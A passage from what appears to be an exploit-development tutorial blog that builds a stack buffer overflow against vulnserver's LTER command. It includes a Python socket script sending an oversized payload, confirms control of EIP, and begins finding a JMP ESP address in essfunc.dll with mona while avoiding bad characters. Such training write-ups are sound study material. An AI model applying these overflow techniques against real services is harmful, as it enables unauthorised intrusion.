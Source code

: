 ```python
buffer += "C" * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

![](/assets/images/CTP/LTERyepagain.JPG)

It looks like our offsets were correct. We have `BBBB` in our EIP as planned and our beautiful `C` buffer afterwards. 

## Finding a Suitable JMP ESP

We now have to find a `JMP ESP` in the `essfunc.dll` but we have to keep in mind the character restrictions. If we were to input a harcoded address with a bad character, it would get corrupted and we wouldn't end up hitting our `JMP ESP`. Let's see if mona can help us avoid bad characters. 

A quick search gets us to the [Corelan mona explainer](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/) and we see that there is an option to specify criteria for the types of pointers that mona brings back. This is so sick!
